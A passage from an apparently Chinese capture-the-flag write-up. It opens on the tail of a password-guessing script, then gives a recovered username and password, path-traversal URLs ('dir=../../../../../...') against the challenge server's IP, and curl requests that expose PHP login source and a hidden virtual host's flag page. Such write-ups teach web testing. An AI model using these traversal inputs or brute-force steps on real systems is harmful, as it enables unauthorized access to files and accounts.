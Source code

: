 ```
                print 'Got it!'+i
                ipass = t
                print ipass
            else:
                print 'No!'+i 

```

跑出完整的出密码

```
Dracula / ZD456ddssd65456lksndoiNzd654sdsd654zd65s4d56489zdz 

```

登陆之后又一个比较明显的文件遍历,可以看到网站还有一个隐藏的目录。

```
http://188.40.18.70/ACCESS?action=browse&dir=../../../../../var/www/html/__WebSiteFuckingPrivateContentNotForPublic666 

```

访问里面的页面可以得到源码

root@kali:~# curl http://188.40.18.70/__WebSiteFuckingPrivateContentNotForPublic666/LOGIN_HEAD

```
<?php
    if(@$_SESSION['user']){header("location: ".$LINK);die();}
    if(isset($_POST['user'])){
        if(mysqli_num_rows(mysqli_query($con,"SELECT * FROM users WHERE Us3rN4m3='".mysqli_real_escape_string($con,@$_POST['user'])."' AND P4sWW0rD_0F_M3_WTF='".mysqli_real_escape_string($con,@$_POST['pass'])."' "))>0){
            $_SESSION=$_POST;
            header("location: ".$LINK);die();
        }else{
            $Error=1;
        }
    }
?> 

```

但是Flag并不在里面，而是是藏在另外一个web服务之中。在这个目录下可以看到。

```
http://188.40.18.70/ACCESS?action=browse&dir=../../../../../../../home/devilish.local/__WebSiteFuckingPrivateContentNotForPublic666%2b666 

```

这个server中的INDEX文件输出了Flag

```
root@kali:~# curl "http://188.40.18.70/__WebSiteFuckingPrivateContentNotForPublic666%2b666/INDEX" -H "Host: devilish.local"
<br/>
        This is the private Portal of us<br/><br/>
        If you are accessing this page this means you are one of the very few exclusive members who are allowed to come in here!<br/> 

<br/>
<?php echo($logged?"Here's your secret ".$flag."<br/><br/>":"Login to access the secret<br/><br/>")?>

<span class="styleX">s</span> 

```
